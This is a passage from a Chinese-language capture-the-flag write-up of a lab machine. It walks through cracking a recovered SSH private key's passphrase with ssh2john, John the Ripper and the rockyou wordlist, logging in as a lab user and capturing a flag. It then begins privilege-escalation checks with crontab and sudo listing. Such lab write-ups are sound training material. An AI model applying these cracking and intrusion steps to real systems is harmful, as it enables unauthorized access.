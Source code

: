 ```
gunzip rockyou.txt.gz
```

![image-20211208232910798](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208232910798.png)

使用john前，需将私钥转换为该工具可以使用爆破的格式

```
cd /usr/share/john
```

```
./ssh2john.py ~/id_rsa > ~/hash
```

![image-20211208233910653](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208233910653.png)

```
john hash --wordlist=rockyou.txt
```

![image-20211208234313571](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208234313571.png)

爆破结果得到的密码为：unicorn

胸有成竹的进行登陆

```
ssh mowree@192.168.0.108 -i id_rsa 
```

![image-20211208234716317](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208234716317.png)

终于突破了边界 获取到了第一个flag 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ

另外一个flag应该是需要root用户才能拿到的

### 13.提权冲锋🐛

尝试提权

#### 1)查看当前有无计划任务 

利用脚本就...

```
crontab -l    
```

![image-20211208235115298](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208235115298.png)

并没有😖



#### 2)查看sudo权限配置方面有无缺陷

```
sudo -l       	
```
